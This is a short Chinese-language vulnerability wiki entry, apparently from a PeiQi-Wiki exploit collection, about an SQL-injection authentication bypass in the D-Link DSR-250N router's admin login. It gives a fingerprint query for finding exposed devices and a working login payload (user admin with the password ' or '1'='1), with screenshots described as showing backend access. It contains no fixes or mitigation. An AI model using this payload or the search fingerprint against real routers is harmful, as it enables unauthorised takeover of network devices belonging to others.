 # D-Link DSR-250N SQL注入漏洞

## 漏洞描述

D-Link DSR-250N 存在万能密码漏洞，攻击者通过漏洞可以获取后台权限

## 漏洞影响

<a-checkbox checked>D-Link DSR-250N</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="D_Link-DSR-250N"</a-checkbox></br>

## 漏洞复现

登录页面如下



![img](/assets/PeiQi-Wiki/img/image-20210609175053339.png)



```plain
user: admin
pass: ' or '1'='1
```

成功登录后台



![img](/assets/PeiQi-Wiki/img/image-20210609175150907.png)

